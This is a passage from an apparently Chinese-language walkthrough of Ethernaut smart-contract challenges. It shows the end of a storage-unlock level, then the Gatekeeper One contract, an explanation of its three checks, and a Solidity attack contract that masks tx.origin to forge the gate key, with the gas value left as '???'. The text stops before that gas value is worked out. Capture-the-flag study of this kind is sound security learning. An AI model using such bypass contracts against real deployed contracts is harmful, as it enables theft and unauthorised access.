<'0x4921c6f12752dfcee307acb3c9da4f069e4976b0b244f3e87d817e7eb6ce262f'
```

然后只要byte16()

contract.unlock('0x4921c6f12752dfcee307acb3c9da4f06')
调用完后就通过此关

# 13.Gatekeeper One

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(gasleft() % 8191 == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

一共三道门，第一道要求msg.sender不是合约创建者，即需要另建合约攻击；第二道要求在运行道gasleft()时，剩余gas整除8191；第三道要求_gatekey与tx.origin的地址有关

则构建攻击合约如下

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IGatekeeperOne {
    function enter(bytes8 _gateKey) external returns (bool);
}

contract AttackGatekeeperOne {
    address levelInstance;

    constructor(address _levelInstance) {
        levelInstance = _levelInstance;
    }

    function openGate() public {
        bytes8 key = bytes8(uint64(uint160(tx.origin))) & 0xFFFFFFFF0000FFFF;
        IGatekeeperOne(levelInstance).enter{gas: ???}(key);
    }

}
```

下面的目标就是测试到gasleft与输入进去的gas的关系，据教程解释可以进行
